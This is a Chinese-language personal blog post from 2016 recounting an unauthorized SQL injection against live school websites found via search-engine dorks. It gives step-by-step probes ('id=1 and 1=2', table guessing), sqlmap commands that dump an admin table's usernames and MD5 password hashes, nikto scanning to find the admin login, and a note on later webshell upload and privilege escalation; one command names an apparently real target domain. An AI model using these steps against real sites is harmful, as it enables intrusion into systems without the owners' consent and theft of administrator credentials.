 ```yaml
---
layout: post
title:  "一次Sql注入记录"
categories: Hacker
tags:  sql hacker
---
```


* content
{:toc}


## 0x00 背景

菜鸟级别的sql注入。

## 0x01 踩点

现在sql注入的漏洞已经不太好找了，大部分的网站都对这方面做好了防范，因此如果你继续使用`inurl:asp?id=`这种语法来查找试点，其实也挺困难的，很大的可能是找了很久都找不到，打消积极性。

所幸有很多现有的漏洞，比如搜关键字`inurl:TeachView.asp`，这是一个已知的漏洞，很早前在乌云上就有了，但是还有很多带着漏洞的网站在运行，因此，在百度上一搜，大把大把的......





### sql注入漏洞检测三部曲

**第一步：**

```
http://www.example.com/TeachView.asp?id=1'
#网页应该会变化，一般出现个错误界面，里面有错误代码,比如下面的信息：
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e14'[Microsoft][ODBC Microsoft Access Driver] 语法错误 (操作符丢失) 在查询表达式 'id=1鈥' 中。/TeachView.asp，行 5
```

**第二步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=1
#网页应该是正常的。
```

**第三步：**

```
http://www.example.com/TeachView.asp?id=1 and 1=2

#网页有出错了，但是和之前的不一样了。
ADODB.Field 错误 '80020009'BOF 或 EOF 中有一个是“真”，或者当前的记录已被删除，所需的操作要求一个当前的记录。/TeachView.asp，行 0

```

## 0x02 sql注入

sql注入分手工和工具注入。目前网上大部分都是教各种工具的用法，其实最好还是先自己尝试手动试一下，至少能了解大致的思路，比如怎么猜数据库名、字段，然后再使用工具。

### 手动注入举例

其实我也不怎么会手动注入，只是自己尝试几个后就用工具了，比较懒，以后看心情学了。很多猜测技巧，网上有现成的！

```
#举个小栗子，猜测表名
http://www.example.com/TeachView.asp?id=1 and (select count(*) from admin )>0
```

### sqlmap

当发现自己动手实在猜不出来结果后，直接上工具，kali自带sqlmap就够用，看一下帮助文档，开搞。

*下面记录，忽略大部分没用的信息，并且隐藏了所有我意识到的真实的数据。*

**先试下能不能看到所有数据库：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dbs

......

web server operating system: Windows 2003 or XPweb application technology: ASP.NET, 
Microsoft IIS 6.0, 
ASPback-end DBMS: Microsoft Access[02:15:55] [WARNING] on Microsoft Access 
it is not possible to enumerate databases (use only '--tables')
......

```

嗯，貌似不用枚举所有的db名称，但是知道了服务器的情况，剩了nmap自己扫了。貌似版本都很低，看来我也就配这种老系统了......

**那直接看一下表名：**

```
~$ sqlmap -u "http://www.yxqyxzx.com/TeachView.asp?id=1" --tables
......
[02:19:01] [INFO] fetching tables for database: 'Microsoft_Access_masterdb'[02:19:01] [INFO] fetching number of tables for database 'Microsoft_Access_masterdb'
......
[02:19:55] [INFO] retrieved: admin
......

```

我很好奇，之前都搜不出来db名，这次直接就默认了一个db的名字，个人猜测，sqlmap是通过这个web程序的权限来看数据库，那么通过这个web入口应该默认到这个数据库中。

数据表比较多，暂时只关注最主要的admin表。

**然后要尝试获取字段：**

```
~$ sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin

......
[02:53:46] [INFO] retrieved: id[02:53:52] [INFO] retrieved: adminname[02:55:08] [INFO] retrieved: adminpassword
......
```

**接着就是获取帐号密码：**

其实帐号可以自己猜一些，手动注入的时候可以试试，比如admin、administrator什么的，怎么手动获取密码我还不会。

```
sqlmap -u "http://www.example.com/TeachView.asp?id=1" --dump -T admin -C adminnamDatabase:
Microsoft_Access_masterdbTable: admin[2 entries]+----+-----+-----+------------------+----------+-----------+------------------+| id | url | num | title            | username | adminname | adminpassword    |+----+-----+-----+------------------+----------+-----------+------------------+| 1  | NULL | 198 | OY\x7f\x8es\x89- || admin    | 7a57a5a743894a0e || 4  | NULL | 472 | OY\x7f\x8es\x89- || admin2    | 7a57a5a743894a0e |

```

好了，现在获取到了帐号和密码的MD5值，然后上网解密一下就行了。

## 0x03 后台地址查找

查找后台地址的时候，我很靠谱的使用了手动查找，各种inurl就是搜不出来后台，最后看了一下kali里面有一个nikto，看一下帮助文档，感觉很傻瓜的样子。

```
~$ nikto -host http://www.example.com

- Nikto v2.1.6

---------------------------------------------------------------------------

+ Target IP:          *.*.*.*

+ Target Hostname:    www.example.com

+ Target Port:        *

+ Start Time:        2016-03-06 02:39:37 (GMT8)

---------------------------------------------------------------------------

......

+ Multiple index files found: /index.html, /index.asp

......

+ /admin/login.asp: Admin login page/section found.

+ /login.asp: Admin login page/section found.

......

```

**然后根据前面的帐号密码就可以很开心的进去了。**

## 0xFF 总结

个人感觉，上面记录的方法应该是非常不前卫的，因为大部分网站都很那找到这种漏洞了，但是思想应该还是比较相近的，可以学习一下整个思路，然后与时俱进地学习。

拿到管理员帐号后，可以做更多事，比如上传webshell、提权什么乱七八糟的，这就留到以后了。

第一次入侵成功后，其实没有什么成就感，也没有什么破坏欲，最大的感受就是，好坏就在一念之差了。



******
2016-03-06 22:00:00 hnds
******